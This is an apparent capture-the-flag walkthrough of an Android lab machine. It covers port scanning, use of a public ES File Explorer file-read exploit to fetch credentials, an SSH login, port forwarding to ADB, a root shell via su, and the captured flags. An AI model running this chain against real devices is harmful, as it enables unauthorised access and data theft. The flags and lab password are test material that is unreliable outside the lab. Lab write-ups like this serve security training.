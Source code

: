 ![Explore.PNG](/assets/Machines/Easy/Explore/Explore.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.247
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.247
```

**Output**
```bash
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
33245/tcp open     unknown
42135/tcp open     unknown
```

3. Analyze the services are running in ports discovered

```bash
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
```

4. With `searchsploit` search **Es File Explorer**
```bash
┌──(root㉿kali)-[/home/kali]
└─| searchsploit 'es file explorer'
```

**Output**
```bash
--------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- -------------------------
ES File Explorer 4.1.9.7.4 - Arbitrary File Read                                 | android/remote/50070.py

```

5. Copy the exploit in **current directory**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| searchsploit -m android/remote/50070.py
```

6. Dowload file `creds.jpg`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg
```

7. Open image

![creds.PNG](/assets/Machines/Easy/Explore/creds.PNG)


8. Login with ssh 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh kristi@10.10.10.247 -p 2222
```

9. Cat **user flag**
```bash
:/sdcard $ cat user.txt                                                        
f32017174c7c7e8f50c6da52891ae250
```

10. Look ports open in device

```bash
:/sdcard $ netstat -nat
Active Internet connections (established and servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      1 10.10.10.247:52016      1.0.0.1:853             SYN_SENT   
tcp        0      1 10.10.10.247:57502      1.1.1.1:853             SYN_SENT   
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:45905 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0      0 ::ffff:127.0.0.1:44549  :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.1:51540 ESTABLISHED
```

* Adb (Android Debug Bridge) allows communication with an instance of an emulator.

11. Do Port Forwarding **Port: 5555** for our port 5555 be port 5555 the target machine

```bash
┌──(root㉿kali)-[/home/kali]
└─| sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
```

---


* Now our port 5555 is open and running the service of port 5555 target's machine
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| lsof -i:5555
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     30484 root    4u  IPv6  85071      0t0  TCP localhost:5555 (LISTEN)
ssh     30484 root    5u  IPv4  85072      0t0  TCP localhost:5555 (LISTEN)
```


12. Spawn a shell and login how root without password

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Explore]
└─| adb -s localhost:5555 shell
```

**Output**
```bash
x86_64:/ $ 
```

---
```bash
x86_64:/$su                                                                                         
:/ # whomai
root
```

13. Cat a **root flag**

```bash
:/ # cd data
:/data # cat root.txt                                                          
f04fc82b6d49b41c9b08982be59338c5
```